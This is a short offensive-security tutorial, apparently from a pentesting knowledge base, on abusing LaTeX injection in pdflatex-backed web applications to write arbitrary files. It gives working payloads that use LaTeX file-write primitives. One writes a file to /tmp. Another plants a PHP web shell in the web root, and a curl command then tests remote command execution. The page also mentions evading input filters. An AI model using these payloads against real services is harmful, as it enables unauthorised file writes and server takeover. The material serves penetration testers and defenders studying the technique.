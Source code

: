 ```yaml
---
title: Exploiting LaTeX Injection for Arbitrary File Write
description: Learn how to use LaTeX injection to perform arbitrary file writes on
  servers.
keywords:
- LaTeX injection
- file write
- arbitrary file write
- web security
- server exploitation
- pdflatex
- LaTeX commands
- remote code execution
- file manipulation
- cybersecurity
---
```


# Write File

## Context

This article demonstrates exploiting LaTeX injection vulnerabilities to perform arbitrary file writes on a server. To follow this guide effectively, you should be familiar with LaTeX command syntax, file system permissions, web server configurations, and the basics of LaTeX injection techniques.

## Theory

### LaTeX File Write Primitives

LaTeX includes several commands that allow file manipulation, which can be exploited if unsanitized user input is injected into a LaTeX processing system. The key commands for file writing include:

- **`\newwrite\outfile`**: This command creates a new file handle called `\outfile`.
- **`\openout\outfile=filename`**: Opens a file with the specified name for writing.
- **`\write\outfile{content}`**: Writes a specified line of content to the opened file.
- **`\closeout\outfile`**: Closes the file handle, finalizing the written content.

The injection of these commands into a vulnerable LaTeX environment can allow arbitrary files to be created or existing files to be overwritten.

### Attack Surface and Impact

The attack typically involves the following sequence: inject file write primitives, specify a target path, write the payload, and finally close the handle. The critical impact of such an attack depends on the files that can be targeted. Overwriting sensitive files like web roots or configuration files can result in significant security breaches, including code execution or denial of service.

### LaTeX Write File Syntax and Behavior

Understanding the syntax of LaTeX file manipulation commands, as described in the [LaTeX File Write Primitives](#latex-file-write-primitives) section, is critical for crafting effective payloads.
Injections can circumvent basic security filters by obfuscating file paths or splitting malicious commands, allowing attackers to bypass input validation mechanisms.

## Practice

### Arbitrary File Write via LaTeX Injection

To execute an arbitrary file write, you can use the following payload:

```latex
\newwrite\outfile
\openout\outfile=/tmp/evil.txt
\write\outfile{owned by latex}
\closeout\outfile
```

- This payload initializes a new file handle, opens `/tmp/evil.txt` for writing, writes "owned by latex," and then closes the file handle.

**Steps to exploit:**

- Inject the payload into the LaTeX input field of the target web application.
- This requires an injection point in a web application that processes input with tools like `pdflatex`.
- Verify the successful file creation and content writing by checking the file on the server:

    ```bash
    ls -l /tmp/evil.txt
    ```
  This command should show the newly created file.

### Overwrite Web Application File for Code Execution

To achieve remote code execution via file write:

```latex
\newwrite\outfile
\openout\outfile=../webroot/shell.php
\write\outfile{<?php system($_GET['cmd']); ?>}
\closeout\outfile
```

- This payload attempts to create a PHP web shell in the web root directory.

**Steps to exploit:**

- Inject this payload to write the web shell into the application's root.
- Understand the server's directory structure and ensure the LaTeX process has the right permissions.
- Test the web shell functionality:

    ```bash
    curl http://target/webroot/shell.php?cmd=id
    ```
  If successful, this confirms remote code execution capabilities.

## Tools

- **pdflatex**
- **curl** 

This technique allows attackers to write arbitrary files on a server by exploiting vulnerable LaTeX configurations, potentially leading to severe security impacts, including remote code execution.